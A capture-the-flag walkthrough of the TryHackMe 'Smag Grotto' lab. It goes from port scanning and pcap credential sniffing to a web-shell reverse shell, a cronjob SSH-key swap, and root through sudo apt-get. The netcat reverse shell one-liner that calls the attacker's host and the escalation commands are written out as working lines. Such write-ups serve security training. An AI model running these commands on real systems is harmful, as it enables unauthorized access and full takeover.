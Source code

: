 # Smag Grotto  
![alt text](https://i.imgur.com/1n5m1aa.png)   
TryHackMe Easy [Room](https://tryhackme.com/room/smaggrotto)

## Nmap Scan
We will discover port 22 and 80 are open.   
```bash
PORT      STATE    SERVICE        REASON      VERSION
22/tcp    open     ssh            syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDORe0Df8XvRlc3MvkqhpqAX5/sbUoEiIckKSVOLJVmWb9jOq2r0AfjaYAAZzgH9RThlwbzjGj6r4yBsXrMFB01qemsYBzUkut9Q12P+uly9+SeL6X7CUavLnkcAz0bzkqQpIFLG9HUyu9ysmZqE1Xo6NumtNh3Bf4H1BbS+cRntagn1TreTWJUiT+s7Gr9KEIH7rQUM8jX/eD/zNTKMN9Ib6/TM7TkPxAnOSw5JRfTV/oC8fFGqvjcAMxlhqS44AL/ZziI50OrCX9rMKtjZuvPaW2U31Sr8nUmtd3jnJPjMH2ZRfeRTPybYOblPOZq5lV2Fu4TwF/xOv2OrACLDxj5
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN6hWP9VGah8N9DAM3Kb0OZlIEttMMjf+PXwLWfHf0dz6OtdbrEjblgrck0i7fT95F1qdRJHtBdEu5yg4r6/gkY=
|   256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPWHQ800Vx/X5aGSIDdpkEuKgFDxnjak46F/IsegN2Ju
80/tcp    open     http           syn-ack     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
```

## Web Enum
- Gobuster 
By running gobuster we will find `/mail` directory
    ```bash
    =====================================================
    Gobuster v2.0.1              OJ Reeves (@TheColonial)
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://smag.thm/
    [+] Threads      : 10
    [+] Wordlist     : /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
    [+] Status codes : 200,204,301,302,307,403
    [+] Timeout      : 10s
    =====================================================
    2020/07/30 10:18:48 Starting gobuster
    =====================================================
    /mail (Status: 301)
    ```
Going to `/mail` will give us access to a conversation that includes a `.pcap` file.   
- The page
![alt text](https://i.imgur.com/Hf7abh7.png)   

## Wireshark
Taking a good look at the traffic, we can find an HTTP Post request to development.smag.thm/login.php. In the packet, we can see the username and pass in clear text.   
![alt text](https://i.imgur.com/mysFlTm.png)   
with the credential, we can go to `development.smag.thm` and try to get access to `/admin.php`.   


## Getting In
Add development.smag.thm to your `/etc/hosts` and access it through browser.   
- /etc/hosts
    ```bash
    127.0.0.1	localhost
    127.0.1.1	reza-HP-Spectre
    172.16.122.129	hekerendonesa
    10.10.228.117	smag.thm	development.smag.thm
    10.10.70.17	windcorp.thm	fire.windcorp.thm
    172.16.122.130	nugroho-server
    ```
- Acessing `development.smag.thm`   
![alt text](https://i.imgur.com/2rWGPce.png)   
log in with credential we get from the `.pcap` file and we will be redirected to `admin.php`   
![alt text](https://i.imgur.com/3lUPoZp.png)   
Here we have a web shell that will not print out the output of the command, so we can just execute a reverse shell command   
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> <PORT> >/tmp/f`   
And we will have access to the machine as `www-data`   
![alt text](https://i.imgur.com/QDnuKv9.png)

## Getting Access to Jake
- Enum
I tried to use [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to find Priv Esc vector and found that there is an interesting cronjob.   
    ```bash
    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
    
    # m h dom mon dow user	command
    17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
    25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    *  *    * * *   root	/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys <--- We can abuse this
    ```
from that, we know that we can change the content of `/opt/.backups/jake_id_rsa.pub.backup` from jake's public key to our public key.   
After changing that, we can access jake's account with no password.   
![alt text](https://i.imgur.com/WgpnqsN.png)   

## Getting to Root
From the moment i get access to user `jake`, the first thing i tried is to check jake's sudo privilege with the command `sudo -l`.  
And here's what i got 
```bash
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```
So just go to GTFOBins and find `apt-get`   
![alt text](https://i.imgur.com/qd1AJlB.png)   
Just run `sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh` and you will get root shell.   
![alt text](https://i.imgur.com/4dXK1YU.png)

# HAPPY HACKING!!!
